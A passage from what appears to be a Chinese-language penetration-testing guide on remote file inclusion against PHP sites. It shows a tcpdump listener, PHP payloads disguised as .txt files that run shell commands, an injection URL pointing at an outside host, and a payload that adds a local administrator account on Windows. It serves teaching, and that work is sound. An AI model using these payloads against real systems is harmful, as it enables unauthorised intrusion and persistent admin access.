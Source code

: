 ![The execution of file inclusion attacks](../Images/image00368.jpeg)

正如前面提到的一样，有时可以在目标 web 服务器上使用其他协议进行交互。如果您通过将 IP 地址添加到防火墙或**访问控制列表**（**ACL**）中的授权列表中，为自己提供了更多访问半可信网络或 DMZ 的权限，您可能能够看到**服务器消息块**（**SMB**或 RDP 等服务。因此，根据环境的不同，您可能不需要为自己提供额外的访问权限；只要破解 web 服务器就可以为您提供足够的访问权限。

大多数文件包含漏洞与**超文本预处理器**（**PHP**）网站有关。其他语言集可能容易受到攻击，但基于 PHP 的网站最为常见。因此，让我们创建一些伪装成文本文件的 PHP 脚本来验证漏洞并利用底层服务器进行攻击。

### 验证 RFI 漏洞

当你怀疑你已经发现 RFI 暴露时，你需要在利用它之前确认确实存在漏洞。首先，在面向互联网的服务器上启动一个`tcpdump`服务，让其监听**互联网控制消息协议**（**ICMP**）与以下命令的回声：

```
sudo tcpdump icmp[icmptype]=icmp-echo -vvv -s 0 -X -i any -w /tmp/ping.pcap

```

此命令将生成一个文件，该文件将捕获`ping`命令发送的所有这些消息。Ping 公开的 web 服务器，找到服务器的实际 IP 地址，并记录它。然后，创建以下 PHP 文件，该文件存储为名为`ping.txt`的文本文件：

```
<pre style="text-align:left;">
<?php
    echo shell_exec('ping -c 1 <listening server>');
?>
</pre>
```

您现在可以通过以下命令引用文件来执行攻击：

[http://www.example.website.com/?target=70.106.216.176:8000/server/ping.txt](http://www.example.website.com/?target=70.106.216.176:8000/server/ping.txt)

一旦攻击被执行，您可以使用以下命令查看**数据包捕获（PCAP）**：

```
tcpdump -tttt -r /tmp/ping.pcap

```

如果您看到来自与 ping 相同服务器的 ICMP 回音，则您知道该服务器易受 RFI 攻击。

### 通过 RFI 利用主机

当您发现有漏洞的 Windows 主机时，它通常以特权帐户运行。因此，首先，通过 PHP 脚本向系统添加另一个本地管理员帐户可能会很有用。这是通过创建以下脚本并将其写入文本文件（如`account.txt`）来完成的：

```
<pre style="text-align:left;">
<?php
    echo shell_exec('net user pentester ComplexPasswordToPreventCompromise1234 /add');
    echo shell_exec('net localgroup administrators pentester /add'):
?>
</pre>
```
